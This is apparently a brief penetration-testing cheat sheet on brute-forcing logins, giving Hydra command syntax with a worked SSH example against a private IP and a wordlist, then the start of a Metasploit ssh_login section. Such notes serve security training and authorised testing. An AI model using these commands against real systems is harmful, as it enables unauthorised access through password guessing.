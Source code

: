 # Brute Forcing

## Hydra 

### Syntax

`hydra -l [user] -P [Password List] [protocol]://[IP]:[Port] -t [# of Threads] -V`

**Example**

`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.134:22 -t 4 -V`

------ 

## Metasploit 

### SSH

`SSH Login`

    msf > use scanner/ssh/ssh_login